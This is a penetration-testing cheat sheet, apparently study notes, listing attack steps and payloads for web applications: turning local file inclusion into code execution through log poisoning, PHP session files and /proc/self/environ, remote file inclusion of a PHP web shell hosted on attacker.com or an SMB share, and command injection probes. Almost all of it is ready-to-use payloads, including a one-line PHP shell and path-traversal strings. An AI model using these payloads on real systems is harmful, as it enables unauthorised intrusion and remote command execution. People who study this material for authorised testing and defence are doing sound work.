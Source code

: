 ### LFI to RCE
```
# Via log poisoning (Apache)
1. Send request with User-Agent: <?php system($_GET['cmd']); ?>
2. Access log file: page.php?file=../../../var/log/apache2/access.log&cmd=id

# Via PHP sessions
1. Set PHPSESSID cookie with value: <?php system($_GET['cmd']); ?>
2. Access session file: page.php?file=../../../var/lib/php/sessions/sess_[PHPSESSID]&cmd=id

# Via /proc/self/environ
1. Send request with User-Agent: <?php system($_GET['cmd']); ?>
2. Access environ: page.php?file=../../../proc/self/environ&cmd=id
```

## Remote File Inclusion (RFI)

### Detection
```
page.php?file=http://attacker.com/shell.txt
page.php?file=\\attacker.com\share\shell.txt
```

### Exploitation
```
# Host malicious file
1. Create shell.txt with: <?php system($_GET['cmd']); ?>
2. Host it on your server
3. Access: page.php?file=http://attacker.com/shell.txt&cmd=id

# Using SMB share (Windows targets)
1. Create shell.txt with: <?php system($_GET['cmd']); ?>
2. Host SMB share: impacket-smbserver share .
3. Access: page.php?file=\\10.10.14.1\share\shell.txt&cmd=id
```

## Command Injection

### Detection
```
# Basic tests
param=ls
param=;ls
param=`ls`
param=$(ls)
param=|ls
param=||ls
param=&ls
param=&&ls

# Blind tests
param=ping -c 4 10.10.14.1
param=`sleep 5`
param=$(sleep 5)
param=| sleep 5
```
